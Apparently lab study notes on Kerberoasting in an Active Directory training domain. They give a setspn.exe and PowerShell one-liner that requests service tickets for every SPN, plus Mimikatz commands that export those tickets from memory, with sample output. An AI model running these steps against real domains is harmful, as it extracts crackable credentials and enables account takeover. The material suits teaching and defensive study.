 ## Retrieving All Tickets Using setspn.exe
Command:
```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Example Output:
```
Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/24/2022 11:58:18 PM
ServicePrincipalName : kadmin/changepw
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-5
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : WSMAN/ACADEMY-EA-MS01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

<SNIP>
```

# Extracting Tickets Using Mimikatz
Extract tickets from memory post-loading.

Commands:
```
base64 /out:true

kerberos::list /export
```
- Dumps from memory; outputs .kirbi or Base64 blobs.

Example Output:
```
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
===================
```